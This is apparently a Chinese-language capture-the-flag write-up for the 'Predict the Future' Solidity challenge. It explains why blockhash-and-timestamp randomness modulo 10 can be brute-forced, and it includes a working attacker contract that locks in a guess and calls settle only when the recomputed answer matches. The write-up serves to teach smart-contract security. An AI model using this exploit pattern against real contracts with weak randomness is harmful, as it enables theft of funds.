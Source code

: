 ```solidity
        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```



### 2.题解

这题也有点意思，随机数的生成方式与上一题是一样的，但是它多了个lockInGuess函数，此处我们就需要输入我们guess的值，然后使用settlementBlockNumber限制为我们调用lockInGuess的交易所在区块之后的区块，这样我们就不能在同一个区块里调用lockInGuess与settle函数了，所以这个挑战的名字就叫预测未来

看起来我们要完成挑战就得提前知道后面的区块的信息，这似乎是不可能的，事实上也是不可能的，这里的关键是在于guess的大小为10，也就是0 到 9，这就为我们去爆破它提供了可能，虽然我们无法去就挑战合约的answer，但是我们可以让answer来就我们，反正按照规则一次一次地尝试生成answer，当此块的信息得到的answer与我们猜的guess相同时我们再调用settle函数，以免guesser被清零，我们又得投1 ether进去

所以攻击合约如下



```solidity
contract attacker {

    PredictTheFutureChallenge target;
    uint public result;

    function attacker() public payable {

        target = PredictTheFutureChallenge(address of your challenge);
        target.lockInGuess.value(1 ether)(8);

    }

    function exploit() public payable {
        result = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;
            if (result == 8) {
            target.settle();
        }

    }

    function () public payable {

    }
}
```
